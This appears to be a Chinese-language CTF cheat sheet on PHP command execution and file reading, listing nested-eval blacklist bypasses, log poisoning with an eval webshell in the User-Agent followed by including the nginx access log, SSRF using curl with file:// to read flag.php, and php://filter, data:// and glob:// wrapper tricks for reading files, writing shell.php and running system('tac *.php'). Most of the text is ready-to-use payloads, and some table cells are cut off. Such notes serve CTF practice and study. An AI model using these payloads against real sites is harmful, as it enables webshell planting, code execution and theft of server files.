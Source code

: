 - 一些命令执行读取文件的思路

  > **嵌套eval**：
  >
  > ```php
  > eval(eval($_GET[1]);&1=phpinfo();) (这里的1逃逸出黑名单，可以任意传入)
  > ```
  >
  > **包含日志拿shell**：
  >
  > ```php
  > user_agent：<?php eval($_post[1]);?>
  > 然后include($_GET[1]);&1=/var/log/nginx/access.log
  > nginx的日志文件为/var/log/nginx/access.log
  > ```
  >
  > **利用ssrf**：
  > [php curl实现发送get和post请求](https://www.jianshu.com/p/7fab00c11770)
  >
  > ```php
  > $ch = curl_init();
  > curl_setopt($ch, CURLOPT_URL, "file:///var/www/flag.php");
  > curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  > curl_setopt($ch, CURLOPT_HEADER, 0);
  > $output = curl_exec($ch);
  > curl_close($ch);
  > print_r($output);
  > ```
  >
  > **伪协议对文件进行读写**：
  >
  > - **data://**
  >
  >  - `allow_url_fopen` ：on
  >     `allow_url_include`：on
  >    `PHP版本 >= 5.2`
  >   - 运用：`data:资源类型;编码,内容`
  >     `?xxx=data://text/plain;base64,(base64编码的内容)`或：`?xxx=data:text/plain,(url编码的内容)`
  >
  > - **php://filter**
  >
  >  参数如下：
  >
  > | **php://filter 参数**       |                                                              |
  > | --------------------------- | :----------------------------------------------------------: |
  > | 名称                        |                             描述                             |
  > | `resource=<要过滤的数据流>` |              必须。它指定了你要筛选过滤的数据流              |
  > | `read=<读链的筛选列表>`     |       可选。可以设定一个或多个过滤器名称，以管道符（`        |
  > | `write=<写链的筛选列表>`    |       可选。可以设定一个或多个过滤器名称，以管道符（`        |
  > | `<；两个链的筛选列表>`      | 任何没有以`read=`或`write=`作前缀的筛选器列表会视情况应用于读或写链 |
  >
  >   常用：
  >   base64：
  >  读文件`php://filter/read=convert.base64-encode/resource=hhh.php`
  >   写文件就把read改成write就行
  >   还有就是在进行base64编码难免生成+=,特别是?>转码后以`==`结尾，那么可以在不影响代码的情况下修改其末尾：
  >   `<?php system('tac *.php');?>aa`即可消灭`==`
  >   rot13
  >   将文件写入：`php://filter/write=string.rot13/resource=shell.php`
  >   （若事先将文件内容rot13编码，rot13二次编码后即得到原文）
  >
  > - **glob://**
  >   设计缺陷导致的任意**文件名**列出（通常只能列出根目录以及open_basedir下的文件名）
  >